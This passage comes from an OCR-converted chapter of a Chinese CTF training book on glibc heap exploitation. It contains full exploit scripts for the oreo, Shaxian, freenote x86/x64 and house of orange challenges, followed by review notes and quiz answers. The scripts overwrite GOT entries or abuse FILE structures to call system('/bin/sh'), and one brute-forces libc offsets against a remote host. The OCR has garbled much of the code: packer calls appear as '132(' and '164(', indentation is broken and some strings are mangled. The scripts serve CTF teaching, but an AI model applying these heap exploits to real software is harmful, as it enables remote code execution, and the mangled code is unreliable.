func_use_real_addr = 132(data)

offset__isoc99_sscan = 0x00061e10
offset_system = 0x0003e800

offset_func_use = offset__isoc99_sscan
is_know = True
if is_know == False:
    offset_func_use = int(raw_input("offset_func_use:"), 16)
    offset_system = int(raw_input("offset_system:"), 16)

libc_addr = func_use_real_addr - offset_func_use
system_read_addr =libc_addr + offset_system

next_ptr = 0x804a2a8 - 0x08 #message_addr fake node

name = "a" * 27 + 132(0x0)
name += 132(0x0) + 132(0x41) + 132(next_ptr)
description = "description"
print len(description)
add_new_rifle(io, name, description) #node1 overwrite node2

name = "pxx"
add_new_rifle(io, name, description) #alloc node2 set fake node3

description = 132(func_use_got)
#io.gdb_hint()
add_new_rifle(io, name, description) #alloc fakenode3

message = 132(system_read_addr)
leave_message(io, message)
io.write("/bin/sh;\\n")

io.interact()
io = get_io(target)
pwn(io)
```

### 4. {RCTF-2015} Shaxian (PWN400)

程序中定义的结构体大致如图13-31所示。

{ width="100%" }


<div style="text-align: center;">图13-31 shaxian结构体</div>


由图13-32可以看出，漏洞很明显，属于堆溢出，本来32字节的空间，可以读入60字节，导致覆盖了自身结构体中的next指针。

{ width="100%" }


<div style="text-align: center;">图13-32 shaxian关键溢出点反编译代码</div>


信息泄露，通过覆盖next指针，使其指向任意地址，可以泄露出该地址处的内容。但是为了保证循环能够正常退出，需要保证

fake_v1->next==0。因为got表地址后面都是0，因此可以泄露出got表中的内容。信息泄露关键点反编译代码如图13-33所示。

{ width="100%" }


<div style="text-align: center;">图13-33 shaxian信息泄露关键点反编译代码</div>


因为本程序中申请的堆大小都固定为0x28，所以采用fastbin的利用方法。

首先，在cai_ptr处伪造一个假的堆块fake_chunk，然后修改next指针使其指向该fake_chunk，最后通过free成功释放该fake_chunk。再次申请时，该fake_chunk将被分配，刚好能够实现4字节任意地址写任意数据（将atoi_got改写为system）。fake chunk选址如图13-34所示。


| :0804B1BA | db | ? ; |
| --- | --- | --- |
| :0804B1BB | db | ? ; |
| :0804B1BC | db | ? ; |
| :0804B1BD | db | ? ; |
| :0804B1BE | db | ? ; |
| :0804B1BF | db | ? ; |
| :0804B1C0 | cai_ptr | dd ? |
| :0804B1C0 |  |  |
| :0804B1C4 | align 20h |  |
| :0804B1E0 address | db | ? ; |
| :0804B1E0 |  |  |
| :0804B1E1 | db | ? ; |
| :0804B1E2 | db | ? ; |
| :0804B1E3 | db | ? ; |

<div style="text-align: center;">图13-34 fake chunk选址</div>


可以发现，程序没有给libc，而且根据泄露的地址发现，本地libcdatabase也没有找到对应的库，没法找到泄露出来的atoi和system之间的偏移。根据以前的经验，system地址与atoi相距并不远（atoi在前，system在后），而且这些库函数的地址大都比较规整，为0x10的整数倍，于是想出暴力破解的思路。为了防止卡死，直接发送cat/home/ctf/flag下面的文件，根据读取的返回值，决定偏移是否成功。

虽然偏移不会很大，但是为了节省时间，这里分了几个区段进行暴力破解，如从以0x0、0x5000、0xa000、0xc00开头的距离开始破解，最终求得偏移为0xe130，代码如下：

```python
import struct
from zio import *

#target = ('119.254.101.197',10000)
#target = './shaxian'

target = ('180.76.178.48', 23333)

def input_info(io):
    io.read_until('Address:')
    io.writeline(132(0)+132(0x31))
    io.read_until('number:')
    io.writeline('a'*244+132(0x31))

def dian_cai(io, name, num):
    io.read_until('choose:')
    io.writeline('1')
    io.read_until('Jianjiao')

io.writeline(name)
io.read_until('?')
io.writeline(str(num))

def sublit(io):
    io.read_until('choose:')
    io.writeline('2')

def receipt(io, taitou):
    io.read_until('choose:')
    io.writeline('3')
    io.read_until('Taitou:')
    io.writeline(taitou)

def review(io):
    io.read_until('choose:')
    io.writeline('4')

def link_heap(io):
    io.read_until('choose:')
    io.writeline('4')
    io.read_until('2\n')
    heap_ptr = 132(io.read(4))
    print hex(heap_ptr)
    return heap_ptr

def leak_lib(io):
    io.read_until('choose:')
    io.writeline('4')
    io.read_until('*')
    d = io.readline().strip('\\n')
    return int(d, 10) & 0xFFFFfff

def pwn (target, dis):
    io = zio(target, timeout=10000,
                    print_read=COLORED(RAW, 'red'), print_write=COLORED(RAW, 'green'))
        # io = zio(target, timeout=10000, print_read=None,
                    print_write=None)

        input_info(io)
        dian_cai(io, 'aaa', 1)

        read_got = 0x0804b010

atoi_got = 0x0804B038
#puts_got = 0x0804b02c
payload = 'a' * 32 + 132(atoi_got - 4)
dian_cai(io, payload, 2)

atoi_addr = link_heap(io)
#system_addr = 0xf7e39190

#io.gdb_hint()

payload2 = 'a' * 32 + 132(0x0804B1C0 - 8)
dian_cai(io, payload2, 3)

sublit(io)
payload = 'a' * 4 + 132(atoi_got)

offset_read = 0x000da8d0
offset_system = 0x0003e800
offset_puts = 0x000656a0
offset_atoi = 0x0002fbb0
print "dis:", hex(dis), "com:", hex(offset_system - offset_atoi))
#libc_base = atoi_addr - offset_atoi
#system_addr =libc_base + offset_system
#system_addr =libc_base + offset_puts
system_addr = atoi_addr + dis
system_addr = struct.unpack("i", 132(system_addr)) [0]
sublit(io)
dian_cai(io, payload, system_addr)
#io.writeline('/bin/cat /home/shaxian/flag')
io.writeline('/bin/sh\n')
io.interact()
#data = io.read(1024)
data = io.read_until_timeout(1)
if "RCTF" in data or "No such file" in data:
    print "herre"
    file_w = open("flga-4002", 'w')
    data += "dis:" + hex(dis) + "com:" + hex(offset_system - offset_atoi))
    file_w.write(data)
    file_w.close()
    exit(0)
else:

io.close()
#print "ok:"
#io.interact()

dis = 0x100
dis = 0xe130
while dis < 0xFFFFf:
    try:
        print hex(dis)
        pwn(target, dis)
    except Exception, e:
        pass
    else:
        pass
    finally:
        dis += 0x10
```

### 5. {XMAN夏令营练习题} levev6_x86(freenote-x86)

该题是32位程序，逻辑很简单，直接使用13.3.2节中介绍的unlink方法进行利用即可。

```python
from zio import *

target ="./freenote_x86"
target = ("pwn2.jarvisoj.com", 9885)

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m,
    print_write = w_m)
    return io

def list_note(io):
    io.read_until("): ")
    io.writeline("1")

def new_note(io, length, content):

io.read_until(": ")
io.writeline("2")
io.read_until(": ")
io.writeline(str(length))
io.read_until(": ")
io.write(content)

def edit_note(io, index, length, content):
    io.read_until(": ")
    io.writeline("3")
    io.read_until(": ")
    io.writeline(str(index))
    io.read_until(": ")
    io.writeline(str(length))
    io.read_until(": ")
    io.write(content)

def delete_note(io, index):
    io.read_until(": ")
    io.writeline("4")
    io.read_until(": ")
    io.writeline(str(index))

def pwn(io):
    new_note(io, 0x80, 'a'\*0x80)
    new_note(io, 0x80, 'a'\*0x80)
    new_note(io, 0x80, 'a'\*0x80)
    new_note(io, 0x80, 'a'\*0x80)
    new_note(io, 0x80, 'a'\*0x80)
    delete_note(io, 1)
    delete_note(io, 3)
    edit_note(io, 0, 0x8C, "a"\*0x8C)
    list_note(io)

    io.read_until("a"\*0x8C)
    data = io.read_until("\n"): -1]
    print [c for c in data]

    heap_addr = 132(data[:4].ljust(4, "\x00"))
    manager_addr = heap_addr-0xdb0 + 0x8
    print "heap_addr:", hex(heap_addr)
    print "manager_addr:", hex(manager_addr)

#node0 addr set
node0_addr = manager_addr + 0x8 + 0xC * 0 + 0x8

#useful code begin

bits = 32#64
if bits == 32:
    p_func = 132
    field_size = 4
else:
    p_func = 164
    field_size = 8

p0 = p_func(0x0)
p1 = p_func(0x81)
p2 = p_func(node0_addr - 3 * field_size)
p3 = p_func(node0_addr - 2 * field_size)
node1_pre_size = p_func(0x80)
node1_size = p_func(0x80 + 2 * field_size)
data0 = p0 + p1 + p2 + p3 + "".ljust(0x80 - 4 * field_size, '1') + node1_pre_size + node1_size

#edit node 0, over write node 1
edit_note(io, 0, len(data0), data0)

#delete node 1 unlink node 0
delete_note(io, 1)

#useful code end

strtol_got = 0x0804a2bc
offset_strtol = 0x32bd0
strtol_plt = 0x080484c0

offset_system = 0x3e800

#remote
offset_strtol = 0x34640
#strtol_plt = 0x0000000000400760
offset_system = 0x40310

payload = ""
payload += 132(0x02)
payload += 132(0x01)
payload += 132(0x4)
payload += 132(strtol_got)

payload = payload.ljust(0x88, 'a')

edit_note(io, 0, len(payload), payload)
list_note(io)

io.read_until("0. ")
data = io.read_until("\\n") [:-1]

strtol_addr = 132(data[:4].ljust(4, '\\x00'))
print "strtol_addr:", hex(strtol_addr)

libc_base = strtol_addr - offset_strtol
system_addr = libc_base + offset_system
print "system_addr:", hex(system_addr)

payload = ""
payload += 132(system_addr)
io.gdb_hint()
edit_note(io, 0, len(payload), payload)

io.read_until(": ")
io.writeline("/bin/sh;")

io.interact()

io = get_io(target)
pwn(io)
```

### 6. { {XMAN夏令营练习题} levev6-x64(freenote-x64)

该题是64位程序，逻辑很简单，直接使用13.3.2节中介绍的unlink方法进行利用即可。

```python
from zio import *

target ="./freenote_x64"
target = ("pwn2.jarvisoj.com", 9886)

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    return io

def list_note(io):
    io.read_until("): ")
    io.writeline("1")

def new_note(io, length, content):
    io.read_until("): ")
    io.writeline("2")
    io.read_until("): ")
    io.writeline(str(length))
    io.read_until("): ")
    io.write(content)

def edit_note(io, index, length, content):
    io.read_until("): ")
    io.writeline("3")
    io.read_until("): ")
    io.writeline(str(index))
    io.read_until("): ")
    io.writeline(str(length))
    io.read_until("): ")
    io.write(content)

def delete_note(io, index):
    io.read_until("): ")
    io.writeline("4")
    io.read_until("): ")
    io.writeline(str(index))

def pwn(io):
    new_note(io, 0x80, 'a' * 0x80)
    new_note(io, 0x80, 'a' * 0x80)
    new_note(io, 0x80, 'a' * 0x80)
    new_note(io, 0x80, 'a' * 0x80)
    new_note(io, 0x80, 'a' * 0x80)
    delete_note(io, 1)
    delete_note(io, 3)
    edit_note(io, 0, 0x98, "a" * 0x98)

list_note(io)

io.read_until("a*0x98)
data = io.read_until("\n") [:-1]
print [c for c in data]

heap_addr = 164(data[:8].ljust(8, "\x00"))
manager_addr = heap_addr-0x19d0 + 0x10
print "heap_addr:", hex(heap_addr)
print "manager_addr:", hex(manager_addr)

node0_addr = manager_addr + 0x10 + 0x18 * 0 + 0x10

#useful code begin
bits = 64#32
if bits == 32:
    p_func = 132
    field_size = 4
else:
    p_func = 164
    field_size = 8

p0 = p_func(0x0)
p1 = p_func(0x81)
p2 = p_func(node0_addr - 3 * field_size)
p3 = p_func(node0_addr - 2 * field_size)
node1_pre_size = p_func(0x80)
node1_size = p_func(0x80 + 2 * field_size)
data0 = p0 + p1 + p2 + p3 + "".ljust(0x80 - 4 * field_size, '1') + node1_pre_size + node1_size

#edit node 0, over write node 1
edit_note(io, 0, len(data0), data0)

#delete node 1 unlink node 0
delete_note(io, 1)
#useful code end

atoi_got = 0x0000000000602070
offset_atoi = 0x383a0
atoi_plt = 0x0000000000400760
offset_system = 0x44c40

#remote

offset_atoi = 0x39ea0
#atoi_plt = 0x0000000000400760
offset_system = 0x46590

payload = ""
payload += 164(0x02)
payload += 164(0x01)
payload += 164(0x8)
payload += 164(atoi_got)

payload = payload.ljust(0x90, 'a')

edit_note(io, 0, len(payload), payload)
list_note(io)

io.read_until("0. ")
data = io.read_until("\\n") [:-1]

atoi_addr = 164(data[:8].ljust(8, '\\x00'))
print "atoi_addr:", hex(atoi_addr)

libc_base = atoi_addr - offset_atoi
system_addr =libc_base + offset_system
print "system_addr:", hex(system_addr)

payload = ""
payload += 164(system_addr)
edit_note(io, 0, len(payload), payload)

io.read_until(":")
io.writeline("/bin/sh;")

io.interact()

io = get_io(target)
pwn(io)
```

### 7. {{house of orange (2016-hitcon)}}

glibc 2.23环境下：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
binary = './houseoforange'
elf = ELF(binary)
libc = elf.libc

io = process(binary, aslr = 0)
context.log_level = 'debug'
context.arch = elf.arch

myu64 = lambda x: u64(x.ljust(8, ['0》（
    ub_offset = 0x3c4b30
)
def menu(idx):
    io.recvuntil(': ')
    io.sendline(str(idx))

def see():
    menu(2)

def build(nm, length, pz, color):
    menu(1)
    io.recvuntil(":")
    io.sendline(str(length))
    io.recvuntil(":")
    io.sendline(nm)
    io.recvuntil(":")
    io.sendline(str(pz))
    io.recvuntil(":")
    io.sendline(str(color))
def upgrade(nm, length, pz, color):
    menu(3)
    io.recvuntil(":")
    io.sendline(str(length))
    io.recvuntil(":")
    io.sendline(nm)
    io.recvuntil(":")
    io.sendline(str(pz))
    io.recvuntil(":")
    io.sendline(str(color))
pause()
build('0' * 8, 0x90, 1, 1)

pay = 'c' * 0x90

pay += p64(0) + p64(0x21)
pay += p32(0) + p32(0x20) + p64(0)
pay += p64(0) + p64(0xf21)
# overwrite the top chunk
pause()
upgrade(pay, len(pay), 1, 1)

# trigger int free()
build('1', 0x1000, 1, 1)

# build a large chunk
build('2', 0x400, 1, 1)

see()
io.recvuntil("): ")

libc_addr = myu64(io.recv(6)) & ~(0x1000 - 1)
log.info("\033[33m" + hex(libc_addr) + "\033[0m")
libc.address =libc_addr - 0x3bd000
log.info("\033[33m" + hex(libc.address) + "\033[0m")
# leak heap with fd nextsize, bk nextsize
upgrade('2' * 0x10, 0x400, 1, 1)

see()
io.recvuntil("2" * 0x10)
heap_addr = myu64(io.recv(6)) - 0x140
log.info("\033[33m" + hex(heap_addr) + "\033[0m")
# unsorted bin attack
pay = 'a' * 0x400
pay += p64(0) + p64(0x21)
pay += p32(0x1f) + p32(0x1) + p64(0)

# stream =
house_of_orange(0x555555758570,libc.symbols['system'],li
c.symbols['_IO_list_all》（）

stream = '/bin/sh\0' + p64(0x61)
stream += p64(0) + p64(libc.symbols['_IO_list_all'] -
0x10)

stream = stream.ljust(0xa0, "\0')
# fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base
stream += p64(heap_addr + 0x610)
stream = stream.ljust(0xc0, "\0')
stream += p64(1)

pay += stream
pay += p64(0) * 2
# # vtable
pay += p64(heap_addr + 0x668)
pay += p64(0) * 6
pay += p64(libc.symbols['system'])

pay += stream
upgrade(pay, 0x800, 1, 1)

io.recvuntil(":")
io.sendline('1')

io.interactive()
```

glibc 2.24环境下，只需要将glibc 2.23下exploit中的stream修改为13.3.7节中的pack即可。至于更高版本中使用io_file虚表的利用方法，这里不再做更多叙述。

???+ tip "本节要点（真题解析）"
    1. note1/note2：菜单题借助结构体溢出（edit 读 512 覆盖 256）或 append 越界，覆盖 next/fd 指针实现泄露与改写 got；
    2. oreo：56 字节堆块属 fastbin，用 name 溢出控制 next 制造 fake node（message-0x8），四步拿到 fake node 后改写 scanf got；
    3. Shaxian：固定 0x28 堆块采用 fastbin，覆盖 next 泄露 got，再伪造 fake_chunk 实现 4 字节任意写，最后暴力破解 system-atoi 偏移 0xe130；
    4. freenote x86/x64 与 house of orange 分别示范 unlink 与 Unsorted bin Attack + FSOP 的完整利用链。
## 本章思维导图



## 易错点

!!! warning "易错点"
    1. Off By One 溢出的是「下一堆块 size 域的最低位」，该位恰好对应 P 标志位，常被用于伪造「前一堆块已释放」触发 unlink。
    2. fastbin 的 p 标志位恒为 1、释放时不合并，这是「快速小内存分配」的基石，也是很多利用（如 fastbin attack）的前提。
    3. ==fastbin attack 的 fake chunk 必须让「下一个 chunk 的 size 域最后一位为 1」==，且 size 与对应 fastbin 一致，否则分配校验失败。
    4. forgotten chunk 改写 size1+size2 时必须保持 NMP 位不变，否则释放检查不通过或破坏堆结构。
    5. tcache 在 libc 2.29 之前几乎无安全校验、极易 double free，2.29 之后加了 key 检测，低版本手法可能失效。
??? note "自测题"
    **基础**
    1. chunk 有哪四种类型？malloc_chunk 头部包含哪些字段？
    2. size 域的 N、M、P 三个标志位分别代表什么？P 位在 free 时起什么作用？
    3. fast bin 与 small/large bin 在链表结构和分配策略上有什么区别？
    4. malloc 的简化分配流程有哪几步？各步检查什么？
    5. Off By One 通常溢出到哪个位置？为什么它常与 unlink 结合利用？
    6. UAF 和 Double Free 有什么关系？Double Free 能造成什么后果？

    **进阶**
    7. 新式 unlink 加入了什么校验？如何通过伪造 p[2]、p[3] 绕过它？
    8. house of force 和 house of spirit 分别利用了哪个结构？各需要先泄露什么地址？
    9. house of orange 由哪两个技术组成？g libc 2.24 之后虚表被限制后如何绕过？
    10. 堆地址碰撞为什么在 x86 下可行？它利用了堆地址的什么特性？

    **参考答案**
    1. allocated chunk、free chunk、top chunk、last remainder chunk 四种；头部含 prev_size、size、fd、bk（large block 另有 fd_nextsize、bk_nextsize）。
    2. N=是否主线程（0x4）、M=是否 mmap 分配（0x2）、P=上一堆块是否在用（0x1）；free 时靠 P 位判断能否与上一堆块合并（fast bin 例外，P 恒为 1）。
    3. fast bin 是单链表 + LIFO、p 恒为 1 不合并；small/large bin 是双链表 + FIFO，small 同链大小相同、large 允许不同但有序。
    4. 对齐得 size_real → 查 fast bin → 查 small bin → 查 large bin（触发 malloc_consolidate）→ 从 top chunk 分 → 系统调用开辟，仍不够则失败。
    5. 常溢出到下一堆块 size 域的最低位（即 P 位），通过把 P 位置 0 伪造「前一块已释放」以触发 unlink 合并。
    6. Double Free 是对同一指针多次释放，是 UAF 的一种特殊形态；多次释放可造成堆块重叠，使前后分配的堆块指向同一内存。
    7. 新式 unlink 校验 FD->bk==P 且 BK->fd==P；借助指向 p 的已知指针，伪造 p[2]=&p-3、p[3]=&p-2，使 unlink 后 p=&p-3。
    8. house of force 覆盖 top chunk 的 size（需先泄露堆地址）；house of spirit 在栈上伪造 fastbin 假块（需先泄露栈地址）。
    9. 由 Unsorted bin Attack + FSOP 组成；2.24 之后可借 IO_str_jumps 虚表转换绕过。
    10. 因为堆按页对齐、后 12 位不变，且堆空间范围有限、通常只有十几位变化，本地可把调试地址当已知值多次循环碰撞。
## 参考资料

- 原书：CTF特训营（FlappyPig战队 著，机械工业出版社 2020）。
- glibc malloc 分析：https://sploitfun.wordpress.com/2015/02/10/understanding_glibc-malloc/
- forgotten chunk 资料：http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf
- freenote write-up：http://winesap.logdown.com/posts/258859-0ctf-2015-freenode-write-up
- house of spirit write-up：https://gbmaster.wordpress.com/2015/07/21/x86-exploitation-101-house-of-spirit-friendly-stack-overflow/
- FILE Structure Exploitation：https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/
- how2heap：https://github.com/shellphish/how2heap

*来源：CTF特训营（FlappyPig战队 著，机械工业出版社 2020），OCR 全内容保留整理版。*
